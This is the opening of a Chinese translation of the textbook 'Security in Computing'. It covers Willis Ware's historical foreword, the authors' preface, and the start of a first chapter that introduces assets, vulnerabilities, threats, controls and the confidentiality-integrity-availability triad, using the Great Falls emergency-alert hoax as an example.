# 计算机安全



## 关于本书

ePUB 是一种开放的、行业标准的电子书格式。然而，不同阅读设备和应用程序对 ePUB 及其诸多功能的支持程度各不相同。请使用您的设备或应用程序设置来自定义呈现效果，以符合您的喜好。通常可自定义的设置包括字体、字号、单栏或双栏、横向或纵向模式，以及可点击或点按放大的图表。有关阅读设备或应用程序的设置和功能的更多信息，请访问设备制造商的网站。

许多书籍包含编程代码或配置示例。为优化这些元素的呈现效果，请在单栏、横向模式下查看电子书，并将字号调整至最小设置。除了以可重排文本格式呈现代码和配置外，我们还包含了模仿印刷书籍呈现效果的代码图片；因此，当可重排格式可能影响代码清单的呈现时，您将看到一个“点击此处查看代码图片”链接。点击该链接即可查看高保真印刷版代码图片。要返回之前查看的页面，请点击设备或应用程序上的“后退”按钮。

## 前言

***

**作者注：** Willis Ware 亲撰前言，刊登于《Security in Computing》（计算机安全）的第三版和第四版中。在前言中，他回顾了计算机安全的早期历史，描述了那些在今天依然如当年初期一样切实相关的担忧。

Willis 选择将个人名声与努力融入他参与项目的整体利益之中。事实上，他的深思熟虑的分析和极具说服力的领导力，对这些活动的最终成果贡献良多。如今鲜有人知晓 Willis 的名字；更多人熟悉欧盟数据保护指令，而该指令直接源自其为美国卫生与公众服务部委员会撰写的报告 [[WAR73a]](#bib01.html#bib_647)。Willis 本意正是如此：重视思想本身，而非其名字。

遗憾的是，Willis 于 2013 年 11 月逝世，享年 93 岁。我们认为他在前言中阐述的教训对读者依然至关重要。因此，怀着敬意与感激，我们在此重刊其原文。

***

在 1950 年代和 1960 年代，计算机技术从业者和用户的主要会议聚集地是每年举办两次的联合计算机会议（JCCs）——最初称为东部和西部 JCC，后更名为春季和秋季 JCC，甚至后来称为年度全国（AFIPS）计算机会议。正是从这个环境中，计算机安全这一话题——后来被称为信息系统安全，目前也称为“国家信息基础设施保护”——从机密国防利益的世界走入了公众视野。

几位人士——Robert L. Patrick、John P. Haverty 和我本人等——当时均在兰德公司（其当时的名称）任职，我们一直在谈论国家及其机构对计算机技术日益增长的依赖。令我们担忧的是，已部署的系统可能无法保护自身及其数据，以抵御侵入性和破坏性攻击。我们决定是时候将计算机系统的安全方面引起技术界和用户群体的重视了。

契机事件是美国国家安全局（NSA）内部开发出了一套远程访问分时系统，具备完整的安全访问控制，运行在 Univac 494 机器上，不仅服务于马里兰州梅德堡总部大楼内的终端和用户，还面向全球用户。幸运的是，我了解该系统的细节。

我说服了兰德公司的另外两位专家协助——Harold Peterson 博士和 Rein Turn 博士——加上 NSA 的 Bernard Peters，我组织了一组论文，作为一个现成的额外论文专场提交给 SJCC 会议管理方，由我担任主席。[[1]](#pref01.html#pref01cet01a) 会议方接受了提议，该专场于 1967 年在新泽西州大西洋城会展中心举行。

此后不久，受一家国防承包商请求驱动，要求在一台以远程访问模式运行的单台主机中同时容纳国防机密应用和商业应用，国防部通过高级研究计划局（ARPA）及后来的国防科学委员会（DSB），组建了一个由我担任主席的委员会，研究计算机系统安全控制的问题。初衷是产出一份文件，作为制定国防部在此事上政策立场的基础。

委员会报告最初作为机密文件发布，于 1970 年 1 月正式提交给赞助方（DSB）。后来解密，并由兰德公司于 1979 年 10 月重新出版。[[2]](#pref01.html#pref01cet02a) 该报告广泛流传，并获得了“Ware 报告”的昵称。该报告及其历史介绍可在兰德网站上找到。[[3]](#pref01.html#pref01cet03a)

随后，美国空军（USAF）资助成立了另一个由 James P. Anderson 担任主席的委员会。[[4]](#pref01.html#pref01cet04a) 其报告于 1972 年发布，建议实施一个为期 6 年、总额约 800 万美元的研发安全计划。[[5]](#pref01.html#pref01cet05a) 空军予以响应并资助了多个项目，其中三个项目旨在为特定计算机设计并实现一个带有安全控制的操作系统。

最终，这些活动促成了由 NSA 资助的“标准与评估”计划。该计划在 1983 年达到顶峰，产出了“橙皮书”[[6]](#pref01.html#pref01cet06a) 及其后续一系列支持文件，合称“彩虹系列”。[[7]](#pref01.html#pref01cet07a) 随后，在 1980 年代并延续至 1990 年代，该主题成为国际性议题，催生了称为“通用准则”的 ISO 标准。[[8]](#pref01.html#pref01cet08a)

## 计算机安全的历史背景与演变

### 早期背景：纸质世界的安全模型

在计算机安全的早期研究中，理解其背景至关重要。国防机构拥有保护文档形式机密信息的悠久历史，并演变出一套非常精密的方案，将材料划分为组、子组和超级组，每一级都要求特定的人员许可和“需知”原则作为访问基础。[[9]](#pref01.html#pref01cet09a) 此外，还拥有数百年的加密技术传统和经验，用于保护传输中的机密信息。最后，它理解人员问题以及建立人员可信度的必要性，当然也理解物理安全问题。

因此，在 1960 年代甚至更晚时期所理解的“计算机安全问题”，是如何在计算机系统中创建一组访问控制，以实现或模拟先前纸质世界的流程，外加保护此类软件免遭未授权更改、颠覆和非法使用的相关问题，以及如何将整个系统嵌入具有适当管理监督、操作原则和程序的安全物理环境中。安全性中理解不足的方面主要是软件问题，但也伴随一个附带的硬件方面；即硬件可能发生故障——或被渗透——从而颠覆软件的正常行为。对于通信、人员和物理安全等相关方面，已有大量规则、法规、原则和经验可资借鉴。这主要是将所有这些与硬件/软件方面相融合，以产生一个整体安全的系统和操作环境。

### 现代环境的根本变化

然而，世界现在已经发生了本质性的变化。桌面计算机和工作站已经出现并广泛普及。互联网蓬勃发展，万维网成为现实。网络技术爆炸式增长，计算机系统之间的通信成为常态而非例外。许多商业交易现在基于网络；许多商业社区——特别是金融界——已转向网络化姿态。任何计算机系统的“用户”实际上可以是世界上的任何人。计算机系统间的网络无处不在；信息系统的外延扩展成为目标。

所有这些的净效应是，将基于计算机的信息系统——其硬件、软件、软件进程、数据库、通信——暴露在一个无人控制的环境中，无论是最终用户、网络管理员或系统所有者，甚至政府都无法控制。必须做的是提供适当的技术、程序、操作和环境保障，以应对可能出现或被设想的威胁，并将其嵌入社会可接受的法律框架中。

威胁确实出现了——来自个人和组织、国家和国际层面。为邪恶目的渗透系统或创建恶意软件（通常具有攻击性或破坏性后果）的动机各异，从个人智力满足到间谍活动、经济利益、报复、公民抗命及其他原因。信息系统安全已从一个主要自包含、有边界、与通常已知且守纪律的用户社区交互的环境，转变为一个全球范围、用户群体可能未知且不一定可信的环境。重要的是，安全控制现在必须应对那些在很大程度上无法控制或预期避免其影响的情况。随着演变，计算机安全与责任保险有相似之处；它们各自面对的威胁环境在非常笼统的层面上是已知的，并可能产生广泛可能性的攻击；但攻击的确切细节、时间甚至确定性，在事件发生前都是未知的。

### 保护的必要性与管理挑战

另一方面，现代世界依赖信息及其流动；当代世界、社会和机构离不开基于计算机通信的信息系统。因此，这些系统必须在所有维度——技术、程序、操作、环境——得到保护。系统所有者及其员工已成为保护组织信息资产的责任人。

进展缓慢，很大程度上是因为威胁未被视为真实或破坏性足够大；但也部分因为全面信息系统安全的感知成本被视为过高，与不作为的风险——尤其是财务后果——相比。管理层的支持及其提供的适当资金至关重要，但他们一直迟迟未被说服。

### 本书内容概览

本书涵盖上述广泛议题：威胁本质与系统漏洞（第 1 章）；密码学（第 2 章和第 12 章）；软件漏洞（第 3 章）；通用准则（第 5 章）；万维网与互联网（第 4 章和第 6 章）；风险管理（第 10 章）；以及法律、伦理和隐私问题（第 11 章）。本书还描述了当前可用的安全控制，如加密协议、软件开发实践、防火墙和入侵检测系统。总体而言，本书为负责规划、组织、管理和/或实施全面信息系统安全计划的信息系统专家提供了广泛而坚实的基础。

### 未解决的问题与展望

许多信息安全的技术方面仍待解决——硬件、软件、系统和架构的研发；以及相应的产品。尽管如此，技术本身并非进步帐篷中的“长杆子”（关键瓶颈）。组织和管理层完成安全工作的动机和承诺才是。如今，国家和世界的集体信息基础设施正缓慢爬上学习曲线；每一次顽皮或恶意事件都在推动它前进。近期基于恐怖主义的事件正在加速这一进程。是否已爬升到足以在系统安全与威胁之间达到适当平衡的高度？答案几乎可以肯定是“还没有，还有很长的路要走。”[[10]](#pref01.html#pref01cet10a)

---

——Willis H. Ware

RAND

Santa Monica, California

### 引用文献

**1.** “Security and Privacy in Computer Systems,” Willis H. Ware; RAND, Santa Monica, CA; P-3544, April 1967. Also published in Proceedings of the 1967 Spring Joint Computer Conference (later renamed to AFIPS Conference Proceedings), pp 279 seq, Vol. 30, 1967.

“Security Considerations in a Multi-Programmed Computer System,” Bernard Peters; Proceedings of the 1967 Spring Joint Computer Conference (later renamed to AFIPS Conference Proceedings), pp 283 seq, vol 30, 1967.

“Practical Solutions to the Privacy Problem,” Willis H. Ware; RAND, Santa Monica, CA; P-3544, April 1967. Also published in Proceedings of the 1967 Spring Joint Computer Conference (later renamed to AFIPS Conference Proceedings), pp 301 seq, Vol. 30, 1967.

“System Implications of Information Privacy,” Harold E. Peterson and Rein Turn; RAND, Santa Monica, CA; P-3504, April 1967. Also published in Proceedings of the 1967 Spring Joint Computer Conference (later renamed to AFIPS Conference Proceedings), pp 305 seq, vol. 30, 1967.

**2.** “Security Controls for Computer Systems,” (Report of the Defense Science Board Task Force on Computer Security), RAND, R-609-1-PR. Initially published in January 1970 as a classified document. Subsequently, declassified and republished October 1979.

## 前言

平板电脑、智能手机、电视机顶盒、GPS 导航设备、运动监测仪、家庭安防站，甚至洗衣机和干衣机都配备了互联网连接，通过这些连接，来自你和关于你的数据被发送到你几乎没有可见性或控制力的地方。与此同时，遭受大规模客户数据泄露的零售商名单还在不断增长：家得宝、塔吉特、T.J. Maxx、P.F. Chang's、Sally Beauty。一方面，人们渴望额外连接带来的便利和益处；另一方面，人们对此感到担忧，有些人甚至因这类事件的影响而遭受严重伤害。计算机安全将这两条主线联系在了一起，因为技术正竞相推进智能产品，而其设计者却省略了能够预防或限制灾难的基本控制措施。

在一定程度上，人们对基础产品和复杂系统中的安全故障感到无奈并习以为常。但这些故障并非不可避免。每一位计算机专业人士都可以了解此类问题是如何发生的，以及如何应对它们。计算机安全作为一个领域自 20 世纪 60 年代以来就已存在，并发展出了卓越的研究成果，从而对威胁及其管理方法有了良好的理解。

让许多人望而却步的一个因素是术语：诸如多态病毒、高级持续性威胁、分布式拒绝服务攻击、推理与聚合、多因素认证、密钥交换协议和入侵检测系统等复杂术语并不朗朗上口。其他术语听起来引人入胜却晦涩难懂，例如蠕虫、僵尸网络、根工具包、中间人浏览器攻击、蜜网、沙箱和脚本小子。高等数学或微生物学的语言同样令人困惑，医学和法律的拉丁术语将知晓者与不知晓者分隔开来。但计算机安全的术语和概念实际上具有简单直接、易于学习的含义和用途。

***

**漏洞：** 弱点  

**威胁：** 利用漏洞的条件  

**事件：** 漏洞 + 威胁  

**控制：** 减少威胁或漏洞

***

计算机安全的前提非常简单：漏洞是产品、系统、协议、算法、程序、接口和设计中的弱点。威胁是可能利用漏洞的条件。当威胁确实利用了漏洞并造成危害时，就会发生事件。最后，人们添加控制措施或对策来预防、转移、减轻、检测、诊断威胁并做出响应。整个计算机安全都建立在这个简单的框架之上。本书讲述的是计算机可能发生的坏事以及保护我们计算环境的方法。

### 为什么要读这本书？

承认吧。你知道计算伴随着严重风险，威胁到你的个人数据隐私、数据完整性或计算机运行。风险是生活的常态：过马路有风险，某些地方或许风险更大，但你依然要过马路。小时候你学会了过马路前停下并向两边张望。长大后你学会了判断来车速度，并确定自己是否有足够时间通过。在某个时刻，你培养出了直觉，能判断迎面而来的车辆是否会减速或让行。我们希望你永远不必实践这一点，但有时你不得不决定：在不看路的情况下冲进马路，是否是逃避危险的最佳手段。关键在于，所有这些判断都取决于知识和经验。我们希望帮助你建立同等的知识和经验，以应对安全计算的风险。

从个人设备到复杂的商业系统，计算机安全莫不如此：你从一些基本术语、原则和概念入手。然后，通过看到这些基础知识在程序、操作系统、网络和云计算等众多情境中反复出现，来学习这门学科。你会掌握一些基本工具，如认证、访问控制和加密，并理解它们如何应用于防御策略。你开始像攻击者一样思考，预测可能被利用的弱点，然后转而选择防御措施来应对这些攻击。这种同时扮演进攻和防守角色的最终阶段，使计算机安全成为一项富有创造性和挑战性的活动。

### 本书的用途与读者对象

本书面向想要了解计算机安全的人群；如果你读到了这里，很可能就是这类人之一。本书面向三类读者：高校学生、计算机专业人士和管理者、以及各类基于计算机系统的用户。所有人都想知道同一件事：如何控制计算机安全风险。但你们在特定主题上所需信息的深度可能不同：一些读者想要广泛的概览，而另一些读者则想专注于特定主题，如网络或程序开发。

本书应能提供大多数读者所需的广度和深度。本书按计算机的通用领域组织内容，以便有特定兴趣的读者能轻松找到信息。

### 本书的结构安排

本书各章节按循序渐进的方式编排，从通用的安全关注点进阶到专业应用的特定需求，再到统筹的管理和法律问题。因此，本书涵盖了六大核心关注领域：

**1.** 简介：威胁、漏洞和控制

**2.** 安全从业者的“工具箱”：标识与认证、访问控制和加密

#### 3. 计算机安全实践的应用领域

程序、用户-互联网交互、操作系统、网络、数据和数据库、云计算

#### 4. 跨学科领域

隐私、管理、法律和伦理

#### 5. 密码学详解

#### 6. 新兴应用领域

第一章的开头与许多其他论述一样：奠定基础。在第 1 章中，我们介绍术语和定义，并给出一些示例来说明这些术语的用法。在第 2 章中，我们通过介绍构成计算机安全许多防御基础的三个概念，开始深入探讨该领域：识别和认证、访问控制、加密。我们描述了实现这些概念的不同方式，探讨其优缺点，并介绍这些技术的一些最新进展。

随后，我们从个人用户向外扩展，逐步深入各个计算领域。在第 3 章中，我们从单个程序入手，包括你可能编写的程序和你仅作为用户使用的程序。这两类程序都可能遭受潜在攻击，我们将分析这些攻击的性质以及如何预防。在第 4 章中，我们转向当今大多数用户非常熟悉的一种程序类型：浏览器，作为通往互联网的网关。如今，大多数攻击都是远程进行的，由远程攻击者通过网络（通常是互联网）发起。因此，研究通过互联网传播的恶意代码非常必要。但本章的重点是远程发起的危害，而非其传播所依赖的网络基础设施；我们将网络概念推迟到第 6 章讨论。在第 5 章中，我们探讨操作系统，它是用户与攻击者之间的一道强有力防线。我们还将考虑削弱操作系统自身强度的方法。第 6 章回到网络主题，但这次我们关注架构和技术，包括仅在网络中发生的拒绝服务攻击。数据、数据收集与保护是第 7 章的主题，我们将在其中探讨数据库管理系统和大数据应用。最后，在第 8 章中，我们探索云计算——计算领域中相对较新的成员，但它带来了自身的漏洞和防护措施。


# 简介

---

本章内容：

- 威胁、漏洞和控制
- 机密性、完整性和可用性
- 攻击者和攻击类型；手段、机会和动机
- 资产评估

---

2013 年 2 月 11 日，蒙大拿州大瀑布市的居民在电视上收到了以下警告 [INF13]。传输在屏幕底部显示了一条消息横幅（如图 1-1 所示）。


**图 1-1** 紧急广播警告

并广播了以下警报：

> [哔 哔 哔：*美国政府紧急警报系统的声音模式。随后以下文字在屏幕上滚动：*]
>
> 你们地区的民政当局报告称，死者的尸体正从坟墓中爬出并攻击活人。请遵循屏幕上的信息，随着信息的获取将会更新。
>
> 请勿尝试接近或逮捕这些尸体，因为它们被认为极其危险。此警告适用于接收此广播的所有地区。
>
> [哔 哔 哔]

警报声听起来真实无误；它具有人们识别的独特音调，用于警示恶劣天气或自然灾害等严重紧急情况。而且文字显示在直播电视节目中。另一方面，尸体从坟墓爬出听起来很可疑。

你会怎么做？

只有四个人联系警方确认该警告确实是个恶作剧。然而，正如你所想象的，不同的信息可能会导致成千上万的人挤塞高速公路试图逃生。（1938 年 10 月 30 日，奥森·威尔斯广播了 H·G·威尔斯的剧作《世界大战》，确实引起了一场小恐慌，人们相信火星人已登陆并在新泽西州大肆破坏。）

这起恶作剧的肇事者从未被抓获，也不清楚究竟是如何实施的。很可能有人访问了向当地广播电台和电视台提供紧急广播的系统。换句话说，黑客很可能入侵了计算机系统。

你每天都会在无数场景中遇到计算机，往往你几乎意识不到计算机的参与，就像广播媒体的紧急警报系统一样。这些计算机转移资金、控制飞机、监控健康、锁门、播放音乐、供暖、调节心脏起搏、展开安全气囊、统计选票、指挥通信、调节交通，并做其他数百件影响生活、健康、财务和福祉的事情。大多数时候，这些计算机按预期工作。但偶尔它们会做出可怕的错误举动，原因要么是良性故障，要么是恶意攻击。

本书关注计算机、其数据以及与之相关的设备和对象的安全。在本书中，您将了解计算机故障的多种方式——或被导致故障的方式——以及如何防范这些故障。我们以任何优秀报告的方式开始这项研究：回答是什么、谁、为什么和如何的基本问题。

## 1.1 什么是计算机安全？

计算机安全是对您所珍视物品的保护，称为计算机或计算机系统的**资产**。资产类型繁多，涉及硬件、软件、数据、人员、流程或这些的组合。为确定保护什么，我们必须首先确定什么有价值以及对谁有价值。

计算机设备（包括硬件、附加组件和配件）当然是一项资产。因为大多数计算机硬件没有程序就毫无用处，所以软件也是一项资产。软件包括操作系统、实用程序和设备处理程序；应用程序，如文字处理、媒体播放器或电子邮件处理程序；甚至您自己编写的程序。许多硬件和软件是*现成的*，意味着它们是商业化可用的（非为您的目的定制），并且您可以轻松获得替代品。使您的计算机独特且对您重要的东西是它的内容：照片、曲调、论文、电子邮件、项目、日历信息、电子书（含您的批注）、联系信息、您创建的代码等。因此，计算机上的数据项也是资产。与大多数硬件和软件不同，数据很难——甚至不可能——重新创建或替换。这些资产均如图 1-2 所示。



**图 1-2** 计算机价值对象

这三样东西——硬件、软件和数据——包含或表达了诸如你下一个新产品的设计、你最近度假的照片、你新书的章节，或是你最近研究产出的基因组序列等事物。所有这些事物都代表了智力劳动成果或财产，并且它们拥有因人而异、因组织而异的价值。正是这种价值使它们成为值得保护的资产，也是我们想要保护的要素。其他资产——如数据访问权、服务质量、流程、人员用户和网络连接——同样值得保护；它们受硬件、软件和数据的影响或赋能。因此在大多数情况下，保护硬件、软件和数据也就涵盖了这些其他资产的保护。

***

**计算机系统——硬件、软件和数据——具有价值，值得安全保护。**

***

在本书中，除非我们专门区分硬件、软件和数据，否则我们将所有这些资产统称为计算机系统，有时也简称为计算机。并且由于处理器嵌入在如此多的设备中，我们还需要考虑诸如手机、植入式起搏器、供暖控制器和汽车等变体。即使设备的主要用途不是计算，设备中嵌入的计算机也可能卷入安全事件，并代表了一个值得保护的资产。

### 资产的价值

在确定了要保护的资产之后，我们接下来要确定它们的价值。我们经常基于价值做决策，甚至在我们没有意识到的时候也是如此。例如，当你去游泳时，你可以把一瓶水和一条毛巾留在沙滩上，但不能留下钱包或手机。这种区别与资产的价值有关。

资产的价值取决于资产所有者或用户的视角，并且可能独立于货币成本，如图 1-3 所示。你妹妹的照片，就纸张和墨水而言可能只值几美分，但对你可能有很高的价值，而对你的室友则毫无价值。其他物品的价值取决于替换成本；有些计算机数据难以或无法替换。例如，你和朋友聚会的那张照片可能没花你一分钱，但它无价之宝，因为没有其他副本。另一方面，你最喜欢的电影的 DVD 可能花费了你可支配收入的很大一部分，但如果 DVD 被盗或损坏，你可以再买一张。同样，时机也影响资产价值。例如，公司新产品线的计划价值非常高，尤其是对竞争对手而言。但一旦新产品发布，计划的价值就会大幅下降。



**图 1-3** 资产的价值

***

**资产的价值是因人而异的、随时间变化的，且往往难以精确量化。**

***

### 脆弱性-威胁-控制范式

计算机安全的目标是保护有价值的资产。为了研究不同的保护方式，我们使用了一个框架，该框架描述了资产可能受到损害的方式，以及如何应对或减轻这种损害。

**脆弱性** 是系统中的弱点，例如在程序、设计或实现方面，可能被利用造成损失或伤害。例如，某个特定系统可能容易受到未授权的数据操纵，因为该系统在允许数据访问前不验证用户身份。

***

**脆弱性是可能被利用以造成危害的弱点。**

***

对计算系统的**威胁** 是一组有可能造成损失或伤害的情形。要理解威胁和脆弱性的区别，请参考图 1-4 中的说明。这里，一堵墙挡住了水。墙左边的水对墙右边的人构成威胁：水位可能上升，溢出淹没那个人；也可能停留在墙高以下，导致墙体倒塌。因此，危害的威胁是那个人可能被淋湿、受伤或淹死的可能性。目前墙体完好，所以对那个人的威胁尚未实现。



**图 1-4** 威胁与脆弱性

***

**威胁是一组可能造成危害的情形。**

***

然而，我们可以看到墙上有一道小裂缝——一个威胁该男子安全的脆弱性。如果水位上升到裂缝处或更高，它将利用该脆弱性并伤害该男子。

计算机系统面临许多威胁，包括人为发起和计算机发起的威胁。我们都经历过无意的人为错误、硬件设计缺陷和软件故障导致的后果。但自然灾害也是威胁；例如，当机房被淹或数据中心因地震倒塌时，它们会使系统瘫痪。

利用脆弱性的人类会对系统发动**攻击**。攻击也可能由另一个系统发起，例如一个系统向另一个系统发送海量消息，几乎使第二个系统失去功能。不幸的是，我们经常看到这种类型的攻击，拒绝服务攻击用超出服务器处理能力的消息淹没服务器。（我们将在第 6 章中更仔细地研究拒绝服务。）

我们如何解决这些问题？我们使用**控制** 或**对策** 作为保护。也就是说，控制是一种能消除或减少脆弱性的行动、设备、程序或技术。在图 1-4 中，男子用手指堵住洞口，控制漏水威胁，直到找到更永久的解决方案。一般来说，我们可以这样描述威胁、控制和脆弱性之间的关系：

***

**控制防止威胁利用脆弱性。**

***

*威胁* 通过对 *脆弱性* 的 *控制* 而被阻断。

在保护资产之前，我们需要知道必须防范哪些类型的危害，因此现在我们来探讨针对有价值资产的威胁。

## 1.2 威胁

我们可以从两个方面考虑资产可能遭受的损害：首先，我们可以看看资产可能发生什么坏事；其次，我们可以看看谁或什么可能导致或允许这些坏事发生。这两个视角使我们能够确定如何保护资产。

想一想是什么让你的计算机对你有价值。首先，你把它作为发送和接收电子邮件、搜索网页、写论文以及执行许多其他任务的工具，你期望它在你需要时可用。没有计算机，这些任务会更难，甚至不可能完成。其次，你高度依赖计算机的完整性。当你写论文并保存时，你相信重新加载时论文将完全像你保存时那样。同样，你期望朋友通过 U 盘传给你的照片，当你加载到你的电脑上时，看起来和你在朋友电脑上看到的一样。最后，你期望个人电脑的“个人”属性保持私密，意味着你希望它保护你的机密性。例如，你希望你的电子邮件只在你和列出的收件人之间传递；你不希望它们广播给其他人。当你写文章时，你期望未经你许可没人能复制它。

这三个方面——机密性、完整性和可用性——使你的计算机对你有价值。但从另一个角度看，它们是降低其价值的三种可能方式，即造成你损害的三种方式。如果有人偷走你的计算机、破坏你磁盘上的数据或查看你的私人数据文件，你的计算机价值就降低了，或者你的计算机使用受到了损害。这些特性既是基本的安全属性，也是安全威胁的对象。

我们可以按如下方式定义这三个属性。

*   **可用性：** 系统确保资产可供任何授权方使用的能力
*   **完整性：** 系统确保资产仅由授权方修改的能力
*   **机密性：** 系统确保资产仅由授权方查看的能力

这三个属性是可靠安全的标志，早在 James P. Anderson 关于计算机安全的论文 [AND73] 中就已出现，并在最近的计算机安全论文和讨论中频繁重现。将它们放在一起（并重新排序），这些属性被称为 **C-I-A 三要素** 或 **安全三要素**。ISO 7498-2 [ISO89] 又增加了两个理想的属性，在通信网络中尤为重要：

*   **认证：** 系统确认发送者身份的能力
*   **不可否认性** 或 **责任追踪：** 系统确认发送者无法令人信服地否认已发送某物的能力

美国国防部 [DOD85] 增加了可审计性：系统追踪与给定资产相关的所有操作的能力。C-I-A 三要素构成了安全思考的基础。真实性和不可否认性将安全概念扩展到网络通信，而可审计性对于确立计算机活动的个人责任至关重要。在本书中，我们通常使用 C-I-A 三要素作为安全分类法，以便能够根据受影响的 C-I-A 属性来界定威胁、漏洞和控制措施。当这些其他属性与我们正在描述的特定威胁相关时，我们会重点强调它们。目前，我们仅关注三要素的三个要素。

***

#### C-I-A 三要素：机密性、完整性、可用性

***

什么会损害计算机资产的机密性、完整性或可用性？如果小偷偷走了你的电脑，你将不再拥有访问权，因此你失去了可用性；此外，如果小偷查看你存储的图片或文档，你的机密性就会受到损害。如果小偷修改了你的音乐文件内容，但随后连同电脑一起归还给你，你的数据完整性就受到了损害。你可以基于这三个属性设想许多场景。

C-I-A 三要素可以从另一个角度来看待：对资产造成的危害性质。危害也可以用四种行为来描述：**截获**、**中断**、**修改** 和 **伪造**。这四种行为如图 1-5 所示。从这个角度来看，如果有人截获数据，机密性就会受损；如果有人或某物中断数据流或对计算机的访问，可用性就会丧失；如果有人或某物修改数据或伪造虚假数据，完整性就会失效。思考这四种行为有助于你确定可能针对你试图保护的计算机的威胁。



**图 1-5** 导致安全危害的四种行为

为了分析危害，我们接下来将细化 C-I-A 三要素，更仔细地审视其每个要素。

### 机密性

有些事物显然需要机密性保护。例如，学生成绩、金融交易、医疗记录和纳税申报表都是敏感信息。一个自豪的学生可能会冲出教室大喊“我考了 A！”，但应该由学生自己决定是否向他人透露该成绩。其他事物，如外交和军事机密、公司的营销和产品开发计划、教育工作者的试题，也必须严格控制。然而，有时某事物是否敏感并不那么明显。例如，军队的食品订单看似无害的信息，但订单的突然增加可能是即将发生冲突的迹象。食品采购、位置的每小时变化和图书借阅记录通常不被视为机密，但它们可能泄露某人想要保密的信息。

机密性的定义很简单：只有授权的人员或系统才能访问受保护的数据。然而，正如我们在后续章节中将看到的，确保机密性可能很困难。例如，谁来决定哪些人员或系统被授权访问当前系统？所谓“访问”数据，是指授权方可以访问单个比特？整个集合？还是脱离上下文的数据片段？被授权的人能否向其他方披露数据？有时甚至存在数据归属权的问题：如果你访问一个网页，点击链接这一事实归你所有，还是归网页所有者、互联网服务提供商、其他人，还是你们所有人？


尽管存在这些复杂的例子，机密性是我们理解得最透彻的安全属性，因为其含义比其他两个属性更狭窄。我们之所以也能很好地理解机密性，是因为我们可以将计算机示例与现实世界中保护机密性的例子联系起来。

机密性最明显地与数据相关，尽管我们也可以考虑硬件（一项新发明）或人员（通缉犯的下落）的机密性。以下是一些可能意味着数据机密性失效的属性：

*   未授权人员访问数据项。
*   未授权进程或程序访问数据项。
*   被授权访问特定数据的人员访问了未被授权的其他数据（这是“未授权人员访问数据项”的一种特殊形式）。
*   未授权人员访问近似数据值（例如，不知道某人的确切薪水，但知道该薪水落在特定范围内或超过特定数额）。
